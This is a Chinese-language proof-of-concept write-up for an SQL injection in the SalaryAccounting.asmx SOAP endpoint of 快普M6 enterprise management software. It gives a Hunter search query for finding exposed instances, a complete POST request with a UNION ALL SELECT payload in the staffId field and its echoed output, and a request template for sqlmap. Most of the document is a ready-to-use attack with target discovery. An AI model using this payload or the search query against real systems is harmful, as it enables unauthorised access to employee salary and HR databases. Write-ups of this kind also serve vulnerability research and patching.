 # 快普M6 SalaryAccounting存在SQL注入漏洞

# 一、漏洞简介
快普软件是一款综合性的企业管理软件，它涵盖了财务管理、人力资源管理、供应链管理、生产制造等多个方面。该软件以强大的功能和灵活性著称，能够满足不同企业的个性化需求。通过快普软件，企业可以更加高效地管理财务、人事、供应链和生产制造等各个环节，实现业务流程的优化和协同。同时，该软件还支持移动办公，方便企业随时随地进行业务处理和管理。总之，快普软件是一款功能强大、易于使用的企业管理软件，能够帮助企业提高运营效率和管理水平。快普M6 SalaryAccounting存在SQL注入漏洞

# 二、影响版本
+ 快普M6

# 三、资产测绘
+ hunter`web.body="Resource/JavaScript/jKPM6.DateTime.js"`
+ 特征

![1705249287850-2f1dd538-9c9e-43e0-8f03-a723c6834643.png](./img/tdsklyiA1YTnWaRM/1705249287850-2f1dd538-9c9e-43e0-8f03-a723c6834643-967314.png)

# 四、漏洞复现
```plain
POST /WebService/HR/Salary/SalaryAccounting.asmx HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=ecch4oew21q5s0d51waneyy4; http125331972318088ValidateCode=R3QT; iKey=IKEY%u8BBE%u5907%u672A%u8FDE%u63A5%uFF01; 3AB9D23F7A4B3C9B=SBQRZJN2EF2QXSSFYFPPHI2BQKRWRME2QTFR4O4VYZ6RCBPIITHTHMWYA7BD64AND5HUIK7NAXNV7BNTBM2SITFE7M; eid=SBQRZJN2EF2QXSSFYFPPHI2BQKRWRME2QTFR4O4VYZ6RCBPIITHTHMWYA7BD64AND5HUIK7NAXNV7BNTBM2SITFE7M
Upgrade-Insecure-Requests: 1
SOAPAction: http://tempuri.org/Calculate
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 1112

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
 <soapenv:Header/>
 <soapenv:Body>
   <tem:Calculate>
    <!--type: string-->
    <tem:SalaryCategory></tem:SalaryCategory>
    <!--type: string-->
    <tem:StaffBirthDay></tem:StaffBirthDay>
    <!--type: string-->
    <tem:staffId>
    1) UNION ALL SELECT CHAR(113)+CHAR(98)+CHAR(98)+CHAR(113)+CHAR(113)+CHAR(79)+CHAR(70)+CHAR(108)+CHAR(70)+CHAR(75)+CHAR(107)+CHAR(66)+CHAR(112)+CHAR(72)+CHAR(110)+CHAR(75)+CHAR(98)+CHAR(74)+CHAR(67)+CHAR(79)+CHAR(115)+CHAR(108)+CHAR(67)+CHAR(75)+CHAR(98)+CHAR(68)+CHAR(100)+CHAR(84)+CHAR(98)+CHAR(112)+CHAR(121)+CHAR(101)+CHAR(105)+CHAR(99)+CHAR(66)+CHAR(79)+CHAR(110)+CHAR(83)+CHAR(69)+CHAR(90)+CHAR(89)+CHAR(102)+CHAR(105)+CHAR(70)+CHAR(106)+CHAR(113)+CHAR(98)+CHAR(112)+CHAR(98)+CHAR(113)-- PCzU</tem:staffId>
    <!--type: string-->
    <tem:Department></tem:Department>
    <!--type: string-->
    <tem:SubOrg></tem:SubOrg>
    <!--type: string-->
    <tem:taxMonthly></tem:taxMonthly>
   </tem:Calculate>
 </soapenv:Body>
</soapenv:Envelope>
```

![1705249349087-7137453d-e7dd-403d-bc71-430489a4605c.png](./img/tdsklyiA1YTnWaRM/1705249349087-7137453d-e7dd-403d-bc71-430489a4605c-387969.png)

```plain
qbbqqOFlFKkBpHnKbJCOslCKbDdTbpyeicBOnSEZYfiFjqbpbq
```

sqlmap

```plain
POST /WebService/HR/Salary/SalaryAccounting.asmx HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=ecch4oew21q5s0d51waneyy4; http125331972318088ValidateCode=R3QT; iKey=IKEY%u8BBE%u5907%u672A%u8FDE%u63A5%uFF01; 3AB9D23F7A4B3C9B=SBQRZJN2EF2QXSSFYFPPHI2BQKRWRME2QTFR4O4VYZ6RCBPIITHTHMWYA7BD64AND5HUIK7NAXNV7BNTBM2SITFE7M; eid=SBQRZJN2EF2QXSSFYFPPHI2BQKRWRME2QTFR4O4VYZ6RCBPIITHTHMWYA7BD64AND5HUIK7NAXNV7BNTBM2SITFE7M
Upgrade-Insecure-Requests: 1
SOAPAction: http://tempuri.org/Calculate
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 1112

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
 <soapenv:Header/>
 <soapenv:Body>
   <tem:Calculate>
    <!--type: string-->
    <tem:SalaryCategory></tem:SalaryCategory>
    <!--type: string-->
    <tem:StaffBirthDay></tem:StaffBirthDay>
    <!--type: string-->
    <tem:staffId>
    1)
    </tem:staffId>
    <!--type: string-->
    <tem:Department></tem:Department>
    <!--type: string-->
    <tem:SubOrg></tem:SubOrg>
    <!--type: string-->
    <tem:taxMonthly></tem:taxMonthly>
   </tem:Calculate>
 </soapenv:Body>
</soapenv:Envelope>
```

![1705249400842-6d4244a7-09d1-4ed5-bea6-da016500b707.png](./img/tdsklyiA1YTnWaRM/1705249400842-6d4244a7-09d1-4ed5-bea6-da016500b707-009540.png)



> 更新: 2024-02-29 23:55:42  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yogdi0xnw4pvfsfa>